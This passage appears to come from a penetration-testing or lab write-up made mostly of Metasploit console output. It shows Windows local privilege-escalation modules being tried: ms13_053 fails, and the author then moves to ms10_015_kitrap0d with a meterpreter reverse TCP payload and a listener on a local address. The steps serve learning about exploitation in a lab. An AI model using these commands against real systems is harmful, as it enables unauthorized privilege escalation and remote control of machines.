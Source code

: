     
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 7 SP0/SP1
    
    msf exploit(ms13_053_schlamperei) > set LPORT 5555
    LPORT => 5555
    msf exploit(ms13_053_schlamperei) > run
    
    [*] Started reverse TCP handler on 192.168.0.99:5555 
    [-] Exploit aborted due to failure: not-vulnerable: Exploit not available on this system
    [*] Exploit completed, but no session was created.


Failed to work @ 14:11. Time to pivot, lets take MS10-015 for a spin.


    msf exploit(ms14_058_track_popup_menu) > use exploit/windows/local/ms10_015_kitrap0d 
    msf exploit(ms10_015_kitrap0d) > options
    
    Module options (exploit/windows/local/ms10_015_kitrap0d):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on.
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 2K SP4 - Windows 7 (x86)
    
    
    msf exploit(ms10_015_kitrap0d) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(ms10_015_kitrap0d) > options
    
    Module options (exploit/windows/local/ms10_015_kitrap0d):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST                      yes       The listen address
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 2K SP4 - Windows 7 (x86)
    